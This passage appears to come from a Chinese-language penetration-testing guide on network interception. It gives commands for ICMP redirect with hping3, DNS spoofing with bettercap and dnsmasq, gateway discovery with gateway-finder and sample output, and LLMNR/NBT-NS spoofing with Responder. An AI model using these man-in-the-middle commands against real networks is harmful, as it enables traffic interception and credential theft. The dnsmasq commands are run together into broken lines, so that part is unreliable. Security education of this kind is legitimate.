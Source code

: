 查看[上一节](./#arp-spoofing)。

### ICMPRedirect

ICMP重定向由发送一个ICMP数据包类型1代码5组成，表示攻击者是到达某个IP的最佳方式。然后，当受害者想要联系该IP时，它将通过攻击者发送数据包。
```bash
Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]
```
### DNS Spoofing

攻击者将解析受害者请求的某些（或所有）域名。
```bash
set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on
```
**使用 dnsmasq 配置自己的 DNS**
```bash
apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS
```
### 本地网关

系统和网络通常存在多条路径。在本地网络中建立 MAC 地址列表后，使用 _gateway-finder.py_ 来识别支持 IPv4 转发的主机。
```
root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.

root@kali:~/gateway-finder# ./gateway-finder.py -f hosts.txt -i 209.85.227.99
gateway-finder v1.0 http://pentestmonkey.net/tools/gateway-finder
[+] Using interface eth0 (-I to change)
[+] Found 3 MAC addresses in hosts.txt
[+] We can ping 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
[+] We can reach TCP port 80 on 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
```
### [欺骗 LLMNR、NBT-NS 和 mDNS](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

在 DNS 查询失败时，Microsoft 系统依赖于 **链路本地多播名称解析 (LLMNR)** 和 **NetBIOS 名称服务 (NBT-NS)** 进行本地主机解析。同样，**Apple Bonjour** 和 **Linux 零配置** 实现利用 **多播 DNS (mDNS)** 在网络中发现系统。由于这些协议的无身份验证特性及其通过 UDP 广播消息的操作，攻击者可以利用它们将用户重定向到恶意服务。

您可以使用 Responder 冒充主机搜索的服务，发送虚假响应。\
在这里阅读更多关于 [如何使用 Responder 冒充服务](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) 的信息。
